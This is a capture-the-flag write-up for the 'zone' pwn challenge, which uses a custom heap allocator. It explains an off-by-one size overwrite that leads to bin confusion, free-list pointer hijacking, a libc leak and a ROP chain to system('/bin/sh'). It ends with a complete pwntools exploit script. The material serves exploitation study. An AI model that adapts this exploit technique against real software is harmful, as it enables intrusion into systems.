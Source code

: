### zone writeup

*Note: someone else solved this during the competition as well for points, just submitting my writeup for posterity*

`zone` is a custom heap implementation.  Underneath the hood, the binary uses `mmap()/munmap()` for allocating memory from the OS and seems to have the following heap structures:

#### structures

```c
struct heap {
    struct bin *64_bit_bin;
    struct bin *128_bit_bin;
    struct bin *256_bit_bin;
    struct bin *512_bit_bin;
}
```

```c
struct bin {
    uint64_t size;
    void *next_free_chunk;
    void *mem_page;
    uint64_t unk;
}
```

```c
struct chunk_header {
    uint64_t size;
    struct chunk *next;
}
```

During startup, bins of size 64, 128, 256, and 512 bytes are created.  Each bin gets a single page of memory (0x1000 bytes) and creates an entire page of 'free' chunks contiguously throughout the allocation.  Users can allocate, delete, write and print memory chunks.

#### bug
There is an off-by-one error that allows users to write a single byte past the end of any given chunk.  By doing this, users can overwrite the least-significant byte of the `size` field of the next `chunk_header`.  Here is an example with an input of 64 'A's followed by 0x80:

![ex1_pre_overwrite](img/ex1_pre_overwrite.png "Before overwrite")

and after the overwrite (changes in orange):

![ex1_post_overwrite](img/ex1_post_overwrite.png "After overwrite")

The memory deallocator references the `size` field of a given chunk when it returns it to its proper bin.  This means that by overwriting the `size` field of a chunk, we can return it to the wrong bin.  Why does this matter?  Because of this loop:

![write loop](img/write_loop.png "Write loop")

The functionality of writing to a block limits the input by the *size of the bin it came from*, not the size field of the chunk header.  Or put another way:

* overwrite the `size` field of 64 byte block (to say, 128)
* free it and return it to the 128 byte bin
* allocate a new 128 byte chunk

We will get the fake 128 byte chunk instead of a real 128 byte chunk.  And the code that allows us to write to memory will gladly allow us to write past the true 64 byte boundary of the chunk into the next chunk, allowing us to completely overwrite the next chunk's header and contents.  But we only care about the header.

#### overwriting the header
The chunk header contains a `size` field and a pointer to the next free chunk *if it is free*.  When it is allocated, the following code is ran:

```c
next_free_chunk = current_bin->next_free_chunk;
if (next_free_chunk) {
    if (next_free_chunk->next) {
        // update the bin header to the next free chunk in memory
        current_bin->next_free_chunk = next_free_chunk->next;
    }
    else {
        // we're out of free chunks!
        current_bin->next_free_chunk = 0;
    }
    next_free_chunk->next = 0;
}
```

By analyzing this logic, we can then do the following:

* use the bug described above to overwrite the `next` field of the next free chunk (lets call the value we overwrite `X`)
* allocate the next free chunk, which will update the bin header to *think* that `X` is the address of the next free chunk
* allocate another chunk, which will return us a pointer to `X`

`X` can be anything!  Remember when the program started up and spit out the address of the 'environment'?  That was a stack address, that happens to always sit 0x88 bytes from the return address on the stack after `main()`.  Oh, and that address also happens to be an address in `__libc_start_main`, so if we set `X` to `'evironment address' + 0x88 - 0x10`, and print the chunk, we get a nice libc address leak to ROP to `system()`:

![libc leak](img/libc_leak.png "libc leak")

The rest is pretty trivial.

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *
import os

exe = context.binary = ELF('./zone')
libc = ELF('./libc.so.6')

gdbscript = """
set sysroot /
""".format(**locals())

def start(argv=[], *a, **kw):
    os.environ['LD_LIBRARY_PATH'] = '.'
    if args.GDB:
        io = gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        io = remote('pwn.chal.csaw.io', 5223)
    else:
        io = process([exe.path] + argv, *a, **kw)
    return io

# connect
io = start()
while True:
    line = io.readline()
    if 'Environment setup' in line:
        break

env_string = line.split(': ')[1]
env_ptr = int(env_string, 16)
log.info('custom heap struct is at: {}'.format(hex(env_ptr)))
ret_addr = env_ptr + 0x88
log.info('main() return addr is at: {}'.format(hex(ret_addr)))

def menu():
    io.recvuntil('5) Exit\n')

def allocate(size):
    io.sendline('1')
    io.sendline(str(size))
    menu()

def delete():
    io.sendline('2')
    retval = int(io.readline().split()[2])
    menu()
    return retval

def write(content):
    io.sendline('3')
    io.sendline(content)
    menu()

def print_block():
    io.sendline('4')
    retval = io.readline()
    menu()
    return retval

def get_leak():
    io.sendline('4')
    l = io.recv(6)
    menu()
    return l

def exit():
    io.sendline('5')

menu()
allocate(64)
write('A'*64 + '\x80')
allocate(64)
delete()
allocate(128)
write('B'*64 + '\x00\x02\x00\x00\x00\x00\x00\x00' + p64(ret_addr-0x10))
allocate(64)
allocate(64)

leaked_addr = u64(get_leak().ljust(8, '\x00'))
# leaked addr is 0xf0 bytes into __libc_start_main
libc_base = leaked_addr - 0xf0 - libc.symbols['__libc_start_main']
system_addr = libc_base + libc.symbols['system']
binsh_addr = libc_base + 0x18cd17 # is there a better way to do this?
pop_rdi_ret = 0x404653
log.info('leaked addr: {}'.format(hex(leaked_addr)))
log.info('libc_base is at: {}'.format(hex(libc_base)))
log.info('system is at: {}'.format(hex(system_addr)))
log.info('/bin/sh is at: {}'.format(hex(binsh_addr)))

payload = flat(
            pop_rdi_ret,
            binsh_addr,
            system_addr
        )
write(payload)
exit()

io.interactive()
```
